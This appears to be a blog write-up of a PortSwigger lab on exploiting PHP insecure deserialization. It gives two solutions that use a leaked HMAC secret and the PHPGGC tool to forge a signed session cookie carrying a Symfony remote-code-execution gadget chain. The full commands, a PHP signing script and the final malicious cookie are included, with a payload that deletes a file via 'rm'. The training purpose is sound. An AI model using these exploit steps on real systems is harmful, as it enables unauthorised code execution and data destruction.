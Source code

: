 ```yaml
---
title: "Lab: Exploiting PHP deserialization with a pre-built gadget chain"
published: true
tags: [Web Application Security, Web Security Academy, Labs, Insecure Deserialization, PHP, PHPGGC]
image: /blog/assets/supply-chain.png
---
```


<br>
![](/blog/assets/supply-chain.png)

<br>
### Link
[Lab: Exploiting PHP deserialization with a pre-built gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain)

<br>
### Lab Description
* * *
<br>
This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's insecure deserialization using pre-built gadget chains.

To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

<br>
### Solutions
* * *
<br>
### Solution 1: My Solution
It is recommended to use Linux or a Unix-based operating system for using pre-built gadget chain tools like PHPGGC for PHP or Ysoserial for Java because of powerful bash command tools that are already in your arsenal or can be downloaded easily. So let's begin.

At first, let's get more information by browsing lab pages, when we log in with `wiener:peter` credentials, we see a session cookie in Burp like this:

```
%7B%22token%22%3A%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2a2xvbHZkNmw4bDIwN2dzMHd1Zms4bGR2bXc1NGV2cCI7fQ%3D%3D%22%2C%22sig_hmac_sha1%22%3A%22e14415c3060a4b056821d84317015c0d8e63b648%22%7D
```

It is a URL-encoded string, which when decoded in Burp decoder we get this:

```
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2a2xvbHZkNmw4bDIwN2dzMHd1Zms4bGR2bXc1NGV2cCI7fQ==","sig_hmac_sha1":"e14415c3060a4b056821d84317015c0d8e63b648"}
```

As you can see, it seems that the token part is signed with hmac_sha1 algorithm. Also the token part in this string is base64-encoded, when decoded it is:

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vklolvd6l8l207gs0wufk8ldvmw54evp";}
```

It is a serialized PHP object. So we can test if there is any insecure deserialization vulnerability that we can exploit, Since it is a signed session cookie, if we want to edit this serialized object, we need the key for the hash algorithm to sign our payload value so we need to search for clues of the key used. When surfing lab pages, in the source of the website we can find this commented line:

```html
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```

so we use this link to open the `phpinfo` page, in this page we can find the secret key:

![](/blog/assets/web-security-academy-php-deserialization-secret-key.png)

We test it to make sure this is the key that is used for signing the session cookie.

With this command you can sign a value:

```bash
echo -n "value" | openssl sha1 -hmac "key"
```

We can test this:

```bash
echo -n "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2a2xvbHZkNmw4bDIwN2dzMHd1Zms4bGR2bXc1NGV2cCI7fQ==" | openssl sha1 -hmac "g8ffja92adxkuz3681mg16suuoo3sbxd"
```

When we run this code we get this signed value:
`e14415c3060a4b056821d84317015c0d8e63b648` and check it with the "sig_hmac_sha1" value in the decoded session cookie above and we see the values are matched, So we can use this secret key to hash our own serialized payload.

Also in the `/cgi-bin/phpinfo.php` page above we can see that the website is using Zend Engine:

![](/blog/assets/web-security-academy-php-deserialization-zend-engine.png)

Please pay attention not to confuse Zend engine with Zend Framework so we need to find out more clues about what PHP framework is used so that we can create an appropriate payload for it.

When the session cookie is manipulated in Burp repeater, an error page is returned in response and we get our clue in the error description:

```
Internal Server Error: Symfony Version: 4.3.6
```

So the website is using Symfony framework for PHP. With all this information, we can create our final payload, we use PHPGGC tool to build our payload, first download this tool from its Github page (see the references section below).

Use this command to find related payloads for Symfony framework:

```bash
./phpggc -l symfony
```

We get this list:

![](/blog/assets/web-security-academy-php-deserialization-phpggc.png)

We start from the first RCE command in the list and test to see which one is working.

We use the secret key found in our bash command, This bash command is created to do multiple tasks and create a final payload:

```bash
command=$(./phpggc -f -b Symfony/RCE1 "rm /home/carlos/morale.txt");x=$( echo -n $command);y=$(echo -n $x | openssl sha1 -hmac "g8ffja92adxkuz3681mg16suuoo3sbxd" | cut -c 14-);urlencode '{"token":"'$x'","sig_hmac_sha1":"'$y'"}'
```

You can substitute your desired PHPGGC command in the above code and also your own secret key that you've found and get the resulting payload in the correct final format.

In the above command:

`-n` in `echo` command is to remove the trailing newline characters.

`-b` in `phpggc` is to base64 encode the gadget chain.

`-f` in `phpggc` is to fast destruct. Here is the description of this flag from PHPGGC Github page:

"PHPGGC implements a `--fast-destruct` (`-f`) flag, that will make sure your serialized object will be destroyed right after the `unserialize()` call, and not at the end of the script. I'd recommend using it for every `__destruct` vector, as it improves reliability. For instance, if PHP script raises an exception after the call, the `__destruct` method of your object might not be called. As it is processed at the same time as encoders, it needs to be set first."

So it is recommended to use this flag.

`cut -c 14-` command cuts the resulting string because the result of the signed value of `openssl` command is something like:

```bash
SHA1(stdin)= e14415c3060a4b056821d84317015c0d8e63b648
```

And we should begin at character 14 and remove the additional beginning characters of `SHA1(stdin)= `

So we get this final payload from the above command:

```
%7B%22token%22%3A%22YToyOntpOjc7Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO31pOjc7aTo3O30%3D%22%2C%22sig_hmac_sha1%22%3A%22e6496d1876437637e6aca6a408cc1b7281bec1fd%22%7D
```

We replace this string with the session cookie in Burp repeater and Carlos's `morale.txt` file is deleted and the lab is solved!

<br>
### Solution 2: Web Security Academy's Solution
1. Log in and send a request containing your session cookie to Burp Repeater. Highlight the cookie and look at the **Inspector** panel.

2. Notice that the cookie contains a Base64-encoded token, signed with a SHA-1 HMAC hash.

3. Copy the decoded cookie from the Inspector and paste it into Decoder.

4. In Decoder, highlight the token and then select **Decode as > Base64**. Notice that the token is actually a serialized PHP object.

5. In Burp Repeater, observe that if you try sending a request with a modified cookie, an exception is raised because the digital signature no longer matches. However, you should notice that:

  - A developer comment discloses the location of a debug file at `/cgi-bin/phpinfo.php`.
  - The error message reveals that the website is using the Symfony 4.3.6 framework.

{:start="6"}
6. Request the `/cgi-bin/phpinfo.php` file in Burp Repeater and observe that it leaks some key information about the website, including the `SECRET_KEY` environment variable. Save this key; you'll need it to sign your exploit later.

7. Download the "PHPGGC" tool and execute the following command:

```bash
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
```

This will generate a Base64-encoded serialized object that exploits an RCE gadget chain in Symfony to delete Carlos's `morale.txt` file.

{:start="8"}
8. You now need to construct a valid cookie containing this malicious object and sign it correctly using the secret key you obtained earlier. You can use the following PHP script to do this. Before running the script, you just need to make the following changes:

  - Assign the object you generated in PHPGGC to the `$object` variable.
  - Assign the secret key that you copied from the `phpinfo.php` file to the `$secretKey` variable.

```php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

This will output a valid, signed cookie to the console.

{:start="9"}
9. In Burp Repeater, replace your session cookie with the malicious one you just created, then send the request to solve the lab.

<br>
### _External Links_
* * *
* #### [Lab: Exploiting PHP deserialization with a pre-built gadget chain](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain)

<br>
### _References_
* * *
* ###### [Insecure deserialization](https://portswigger.net/web-security/deserialization)
* ###### [PHPGGC: PHP Generic Gadget Chains](https://github.com/ambionics/phpggc)
* ###### [Icon](https://www.flaticon.com/premium-icon/supply-chain_5074671?related_id=5074671&origin=search) made by [Freepik](https://www.flaticon.com/authors/freepik) from [www.flaticon.com](www.flaticon.com)
